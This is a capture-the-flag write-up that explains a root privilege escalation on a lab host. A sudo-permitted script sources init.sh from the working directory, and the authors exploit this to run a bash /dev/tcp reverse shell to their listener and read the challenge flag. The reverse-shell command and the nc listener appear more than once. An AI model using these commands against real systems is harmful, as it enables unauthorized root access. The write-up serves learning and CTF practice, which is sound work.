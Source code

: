 # Writeup
by fluffyhake

## Solution
By running a existing script called `hmadmin.sh` with a custom `init.sh` script we can execute any command as root. By doing this, we can open a reverse shell as root and locate the flag in the root home directory.

### Example
```
[prime@ip-10-128-2-180 ~]$ echo 'sh -i >& /dev/tcp/10.128.2.186/9001 0>&1' > /home/activemq/init.sh
[prime@ip-10-128-2-180 ~]$ sudo /opt/CSCOlumos/rcmds/hmadmin.sh  
sudo /opt/CSCOlumos/rcmds/hmadmin.sh  

```
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.128.2.186] from (UNKNOWN) [10.128.2.180] 33236
sh-4.2# whoami
whoami
root

sh-4.2# cd
cd

sh-4.2# cat root.txt
cat root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```



## Explanation
***Notice**: We did not manage to complete this challenge before the CTF finished. Huge shoutout to **loevland** who pointed us in the [right direction](https://discordapp.com/channels/888378227679195147/888388640550576128/1302357247527096371) after the CTF.*


This challenge is the continuation of Prime Time (user). In Prime Time (user) we get a reverse shell using a exploit in Apache ActiveMQ. 

After the initial exploit, we started to read about privilege escalation techniques. This lead us to try the `sudo -l` command.

We see that our user is permitted to run scripts in `/opt/CSCOlumos/rcmds/` as sudo.

```
[prime@ip-10-128-2-180 /]$ sudo -l
sudo -l
Matching Defaults entries for prime on ip-10-128-2-180:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User prime may run the following commands on ip-10-128-2-180:
    (ALL) SETENV: NOPASSWD: /opt/CSCOlumos/rcmds/
```

We poked around in this directory and actually looked at the script which could be used for exploitation (`hmadmin.sh`). But we did not manage to get further due to time. Thankfully, the infra is still up after the CTF (🙌🫶), so we can continue this challenge.

Looking through the scripts in `/opt/CSCOlumos/rcmds/`, we find `hmadmin.sh`, which looks like this:
```
[prime@ip-10-128-2-180 rcmds]$ cat hmadmin.sh
#!/bin/bash
. init.sh

$INSTALL_HOME/bin/hmadmin.sh

```

It executes `init.sh`, but does not do anything to restrict what folder we read `init.sh` from. 
Knowing this, we can create our own `init.sh` script in our home folder and run whatever we want as root.

We used [revshells.com](https://www.revshells.com/) to create a reverse shell command to put in `init.sh`. In addition, we used netcat on our EPT BOX to listen for a shell.

*Creating the init.sh file to open a reverse shell as root. `10.128.2.186` is the host we listen on*
```
[prime@ip-10-128-2-180 rcmds]$ echo 'sh -i >& /dev/tcp/10.128.2.186/9001 0>&1' > /home/activemq/init.sh
```
*Listening for the shell on our EPT BOX*
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

Let's execute the payload by changing into our home folder with the custom `init.sh` script and running `/opt/CSCOlumos/rcmds/hmadmin.sh`
```
[prime@ip-10-128-2-180 rcmds]$ cd 
cd /home/activemq/
[prime@ip-10-128-2-180 ~]$ sudo /opt/CSCOlumos/rcmds/hmadmin.sh  
sudo /opt/CSCOlumos/rcmds/hmadmin.sh  


```
`hmadmin.sh` just read our local, custom, init.sh script and not the one in `/opt/CSCOlumos/rcmds/`!

We now see a shell connecting to our socket! 🎉
```
listening on [any] 9001 ...
connect to [10.128.2.186] from (UNKNOWN) [10.128.2.180] 33236
sh-4.2# whoami
whoami
root
```

We find a file called `root.txt` in root's home folder. It contains the flag. 
```
sh-4.2# ls
ls
init.sh
user.txt
sh-4.2# cd
cd
sh-4.2# ls
ls
root.txt
sh-4.2# cat root.txt
cat root.txt
EPT{5b2f8f8681b6621b519ef09adf371174}
```

This was our first time doing reverse shells and privilege escalation to pwn a server. Thanks to the EPT-team for this new experience and a fun challenge!